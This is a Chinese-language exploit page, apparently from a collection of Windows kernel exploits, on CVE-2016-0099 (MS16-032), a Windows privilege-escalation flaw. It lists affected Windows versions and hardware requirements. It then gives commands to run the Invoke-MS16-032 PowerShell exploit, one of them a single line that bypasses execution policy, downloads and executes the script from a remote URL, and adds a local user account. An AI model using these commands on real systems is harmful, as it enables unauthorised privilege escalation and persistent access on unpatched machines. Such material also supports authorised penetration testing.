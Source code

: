 ### CVE-2016-0099

#### 描述

此漏洞影响从Vista到Windows 10的所有Windows版本（包括服务器版本）以及为了实现利用，因为PowerShell脚本指示需要满足以下要求：目标系统需要有2个以上的CPU核心 PowerShell v2.0及更高版本必须正在运行

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          |                  |         |        |                    |
| Windows 10          |                  | 1511    |        |                    |
| Windows 7           |                  |         | SP1    | &#10004; |
| Windows 8.1         |                  |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  | R2      | SP1    | &#10004; |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### 利用方式

> 目标系统需要有2个以上的CPU核心

PS脚本测试，在Windows Server 2008 R2 SP1 x64执行下面命令

```
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032
```

还能远程添加账户

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user ascotbe test6666 /add'"
```

GIF图如下

![6](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0099_win2008_x64_ps.gif?raw=true)

利用exe文件测试通杀x64和x86的所有版本，这边只录制Windows 7 SP1 x64版本的

![7](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0099_win7_x64.gif?raw=true)

